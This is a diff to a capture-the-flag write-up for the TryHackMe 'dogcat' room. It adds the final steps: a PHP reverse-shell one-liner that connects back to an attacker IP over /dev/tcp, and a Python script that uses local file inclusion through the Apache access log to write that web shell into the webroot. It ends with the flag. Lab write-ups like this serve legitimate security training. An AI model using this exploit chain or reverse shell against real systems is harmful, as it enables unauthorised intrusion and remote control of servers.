

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: THM/dogcat.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/THM/dogcat.md
+++ b/THM/dogcat.md
@@ -606,3 +606,46 @@ http://10.10.106.210/test.php
 
 
 <img width="1344" height="805" alt="image" src="https://github.com/user-attachments/assets/697cead6-46d9-4887-ba7e-ff11a090389a" />
+
+``shell_php.php``
+
+```
+<?php exec('/bin/bash -c "bash -i >& /dev/tcp/10.8.47.102/4444 0>&1"'); ?>
+```
+
+``shell.py``
+
+```py
+#!/usr/bin/env python3
+import requests, base64, os, sys
+
+url = "http://10.10.106.210/"
+local = "shell_php.php"
+
+b64 = base64.b64encode(open(local,"rb").read()).decode()   # نقرأ الملف ونشفّره Base64
+cmd = f"echo {b64} | base64 -d > /var/www/html/shell.php"   # أمر لفك الشيفرة وكتابة الملف في webroot
+r = requests.get(url, params={
+    "view":"dog/../../../../../../var/log/apache2/access.log",
+    "ext":"",
+    "c":cmd
+}, timeout=15)
+
+print("HTTP", r.status_code)
+
+```
+
+
+
+
+
+## get the shell (LFI 2 RCE)
+
+```
+http://10.10.106.210/shell.php
+```
+
+<img width="975" height="624" alt="image" src="https://github.com/user-attachments/assets/32453bd7-58b9-4ab2-8d14-a1f2eedfd57d" />
+
+```
+THM{LF1_t0_RC3_aec3fb}
+```
````
